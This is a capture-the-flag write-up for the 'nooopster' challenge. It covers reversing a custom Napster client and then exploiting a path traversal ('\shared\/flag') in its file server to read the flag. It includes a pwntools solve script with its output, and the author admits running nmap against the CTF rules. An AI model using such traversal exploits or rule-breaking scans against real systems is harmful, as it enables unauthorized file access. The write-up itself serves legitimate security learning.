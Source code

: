 # nooopster

**Category**: Pwn, Rev \
**Points**: 115 (74 solves)

## Challenge

I don't remember the exact description, but it was something like "Let's share
files like it's 1999".

Attachments:
- `nooopster.vpn`
- `openvpn.shared.key`

## Overview

We're given an OpenVPN config and key:
```
dev tun
secret openvpn.shared.key
ifconfig 192.168.5.2 192.168.5.1
remote nooopster.challenges.ooo 1999 tcp-client
verb 9
```

Using OpenVPN 2 we can connect like so
```
openvpn --config nooopster.ovpn
```

Based on the OpenVPN config we know the server is up at `192.168.5.1`. Though
using automated scanners are against the CTF rules, I didn't know what else to
do so I just ran nmap on it:
```
PORT     STATE SERVICE         VERSION
7070/tcp open  napster         MLDonkey multi-network P2P client
8888/tcp open  sun-answerbook?
```

After wasting an hour trying to figure out how to connect, I eventually asked
the challenge author what the intended service was. Turns out it's
[Napster](https://en.wikipedia.org/wiki/Napster) (haha because the challenge is
called nooopster, duh), which is some music sharing service popular in 1999.

Luckily Ubuntu 16.04 still has a Napster client in the official repos:
```dockerfile
FROM ubuntu:16.04
RUN apt-get update && apt-get install nap
CMD /bin/bash
```

Then we can connect like so:
```
nap -s 192.168.5.1:8888
/join #chat
```

![c.png](c.png)

Ok, let's check out his files
```
/browse nooopster
```

![f.png](f.png)

We see about 200 MP3 files (all of them are Rickrolls) and one file called
`nooopster`. Downloading it, we can see that it's an ELF binary.

After opening it in Ghidra, we can see that it's a custom Napster client that
the `nooopster` bot is presumably using. Our goal is to pwn his client.

## Solution

The `nooopster` client has all mitigations enabled so getting RCE probably
isn't the intended solution since the challenge is categorized as "easy". Since
the client has some file sharing functionality, the goal is probably to get
arbitrary file read.

Here's what I found after reversing it in Ghidra:
- It connects to port 8888 of the IP supplied in `argv[1]`
- It checks if the nickname `nooopster` has been taken on the server
- If not, it does `pthread_create` to host a file server on port 7070 in the
  background
- It lists the files in `./shared` and sends the filenames to the Napster server
- Then it polls the Napster connection with a timeout of 10 seconds,
  repeating the same four messages over and over again
- It also checks for download requests and responds appropriately according to
  the [Napster spec](http://opennap.sourceforge.net/napster.txt)

There were only two places where files were read:
1. The file server running on an port 7070
2. A weird `fopen` call in `main`. After playing around for a while, it seemed
   like the `fopen` was unreachable, so I don't know what was even there for.

Since I suck at static analysis, I switched to GDB after I realized that if I
changed the nickname the client used, I could run it without any issues.

Turns out the bug was in this `parse_filepath()` function. The filepath needs
to start with `\shared\blah` and `parse_filepath()` just returns `blah`.
However it doesn't check for any funny business so we can just do
`\shared\/flag` and it will return `/flag`.

Solve script:
```python
import pwn
import time
from enum import IntEnum


def send(msg: bytes, type: int):
    p = pwn.p16(len(msg)) + pwn.p16(type) + msg
    io.send(p)
    res = io.clean(timeout=0.1)
    print(f"[*] Response: {res}")


class Type(IntEnum):
    LOGIN = 2
    JOIN_CHANNEL = 0x190
    PUBLIC_MSG = 0x192
    DOWNLOAD_REQUEST = 0xCB


# We need to request a download before the file server on port 7070 will let us
# download anything
io = pwn.remote("192.168.5.1", 8888)
send(b'qxxxb wmtidxal 0 "nap v1.5.4" 4', Type.LOGIN)
send(b"#chat", Type.JOIN_CHANNEL)
send(b"#chat hello", Type.PUBLIC_MSG)
send(r'nooopster "\shared\nooopster"'.encode(), Type.DOWNLOAD_REQUEST)

io = pwn.remote("192.168.5.1", 7070)
io.send(r'GETqxxxb "\shared\/flag" 0')
io.interactive()
```

Output:
```
$ python3 solve.py
[+] Opening connection to 192.168.5.1 on port 8888: Done
[*] Response: b'\x0b\x00\x03\x00anon@(none)\x14\x00m\x02VERSION opennap 0.44\r\x00m\x02SERVER (none)-\x00m\x02There have been 2 connections to this server.\x07\x00\xd6\x001 202 0'
[*] Response: b'\x05\x00\x95\x01#chat\x0f\x00\x98\x01#chat qxxxb 0 4\x15\x00\x98\x01#chat nooopster 202 0\x05\x00\x99\x01#chat#\x00\x9a\x01#chat Welcome to the #chat channel.'
[*] Response: b'\x11\x00\x93\x01#chat qxxxb hello'
[*] Response: b'N\x00\xcc\x00nooopster 17148096 7070 "\\shared\\nooopster" 00000000000000000000000000000000 0'
[+] Opening connection to 192.168.5.1 on port 7070: Done
[*] Switching to interactive mode
123OOO{M4573R_0F_PUPP375}
```

## Timeline

- `Saturday 03:00 PM - 04:00 PM`
  - Start challenge
  - Waste time with different OpenVPN versions to get the VPN work
  - Finally realize OpenVPN 2 from the Ubuntu repos works just fine
- `Saturday 04:00 PM - 05:00 PM`
  - Scan ports on server, find 7070 and 8888 and 8889
  - Try MLDonkey on port 7070 because that's what nmap tells me it is
  - Give up and ask challenge author what service it is. Turns out it's Napster
    on port 8888
  - Get `nap` client from Ubuntu 16.04 repos and connect
  - Find about 200 songs (all Rickrolls) and one binary called `nooopster`
- `Saturday 05:00 PM - 08:45 PM`
  - Start reversing `nooopster` in Ghidra, not really understanding what was
    going on
  - Use WireShark on `nap` client. Manage to figure out some basics of the protocol
  - Realize that goal is probably to achieve arbitrary file read
  - Find two places where that's possible
- `Saturday 08:45 PM - 09:45 PM`
  - Dinner + break
- `Saturday 09:45 PM - 11:59 PM`
  - Find the client-server protocol [spec](http://opennap.sourceforge.net/napster.txt)
  - Finally am able to understand Ghidra's disassembly thanks to that
- `Sunday 12:00 AM - 02:00 AM`
  - Figure out that if I change the username used by the `nooopster` binary, I
    can run it and connect it to the server
  - Dynamic reversing in GDB
- `Sunday 02:00 AM`
  - Find bug on the file server on port 7070
  - Get the flag
